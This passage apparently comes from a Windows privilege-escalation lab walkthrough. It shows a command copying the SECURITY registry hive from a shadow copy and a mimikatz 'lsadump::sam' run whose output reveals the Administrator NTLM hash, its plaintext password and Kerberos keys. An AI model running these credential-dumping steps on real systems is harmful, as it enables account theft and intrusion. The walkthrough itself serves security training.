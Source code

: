 C:\PrivEsc>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\PrivEsc\SECURITY
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\PrivEsc\SECURITY
        1 file(s) copied.

```
   
After copying the files we can use mimikazha to dump those NTML hash as shown below.   
   
```
C:\PrivEsc>mi.exe
mi.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /system:SYSTEM /sam:SAM
Domain : WIN-QBA94KB3IOF
SysKey : f4fb8f729017b7d8a540e99f6dabea79
Local SID : S-1-5-21-3025105784-3259396213-1915610826

SAMKey : 9898f0f5c79b1fa7e7bf87bda7069f20

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889 #Passw0rd

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 0c2966dfe35260b0d9ef6908aa2bd5f0

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-QBA94KB3IOFAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 969722855eddc5878ff99a9b0beb6a675738474e893a18f23284a8729c515d9a
      aes128_hmac       (4096) : b149e9c75ec17aab4fb81c8e4cabd8ef
      des_cbc_md5       (4096) : b3f73198cb6ece16

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-QBA94KB3IOFAdministrator
    Credentials
      des_cbc_md5       : b3f73198cb6ece16

